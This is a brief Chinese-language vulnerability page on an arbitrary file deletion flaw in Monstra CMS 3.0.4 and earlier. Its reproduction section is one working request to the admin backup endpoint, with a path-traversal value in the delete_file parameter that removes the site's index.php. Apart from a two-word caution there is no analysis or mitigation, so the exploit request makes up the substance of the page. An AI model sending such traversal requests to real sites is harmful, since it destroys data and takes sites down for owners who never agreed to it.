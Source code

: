 Monstra CMS \<= 3.0.4 任意文件删除漏洞
======================================

一、漏洞简介
------------

慎用

二、漏洞影响
------------

Monstra CMS \<= 3.0.4

三、复现过程
------------

    http://www.0-sec.org/admin/index.php?id=backup&delete_file=/.......//./.......//./index.php&token=f62369587a94433bb2c3c00264e8705171c6189f
